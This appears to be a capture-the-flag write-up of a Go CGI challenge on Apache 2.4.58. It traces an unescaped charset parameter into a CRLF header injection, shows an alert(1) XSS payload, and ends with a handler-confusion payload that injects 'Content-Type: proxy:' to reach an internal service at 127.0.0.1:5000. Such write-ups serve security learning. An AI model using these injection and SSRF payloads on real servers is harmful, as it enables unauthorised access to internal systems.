


when we see the source code

we will find in this section that he get the `debug_token` and `charset` from the user by a click

```go
fmt.Printf(`
    <tr>
        <td>%s</td>
        <td>%s</td>
        <td><span class="status-%s">%s</span></td>
        <td>%s</td>
        <td><a href="/sync_audit?debug_token=%s&charset=utf-8">Audit</a></td>
    </tr>
```

then we will search what he is doing with these

we will find this in the `sync_audit :`

```go
token := query.Get("debug_token")
	if token == "" {
		token = "NO_TOKEN"
	}
    fmt.Printf("X-Debug-Audit-Token: %s\\n", html.EscapeString(token))

    charset := query.Get("charset")
    if charset == "" {
        charset = "utf-8" 
    }
    fmt.Printf("Content-Type: text/html; charset=%s\\n", charset)
```

it get the `devug_token` and pass it to `html.escape` to remove any issue vuln

but he pass the `charset` directly to the content-Type header

so we can try to make `CRLF` injection

when i tried this :

```go
debug_token=8774-A&charset=utf-8%0d%0a%0d%0a<script>alert(1)</script>
```



---


so we now can make `CRLF` we now want to read the flag from the internal server so we will Try to make `SSRF`with the new header

we Found that the `apache/2.4.58`

so we will try to search about SSRF with this version :

```jsx
key word was : ssrf via header injection apache/2.4.58 exploit 
```

---

We will find this blog

[https://blog.orange.tw/posts/2024-08-confusion-attacks-en/#🔥-3-Handler-Confusion](https://blog.orange.tw/posts/2024-08-confusion-attacks-en/#%F0%9F%94%A5-3-Handler-Confusion)

In the section **`Handler Confusion` :**

- **when you want to use `mod_php` you must set `AddHandler` and `AddType`**
- if the handler not exist the server uses the content-type as a handler

---

But there is a Problem

when you try to overwrite the `content-type` with a internal file we can’t

because when we run the server the `content-type` set to `addtype` not handler and the server treat the frist states

---

but we have another thing

```go
<Location /server-status>
    SetHandler server-status
    Require all granted
</Location>
```

if we can control with the `location` header the configration of the server if we set the `location` header with `/` and the response of the server was `200 OK` the server must make a new request with this `/anything` in the location header

and make a request with the `content-type` of the original request

in this scenario when the new request send the `content-type`set to handler

and we can use with it something like `mod_proxy` that request an internal request by `X-Forwarded-For`

so we want to set the request like that :

```go
location :/any-thing 
content-Type :proxy:<http://127.0.0.1:5000>
```

so our payload will be :

```go
?debug_token=8774-A&charset=%0ALocation%3A%20%2Ffooo%0AContent-Type%3A%20proxy%3Ahttp%3A%2F%2F127.0.0.1%3A5000
```

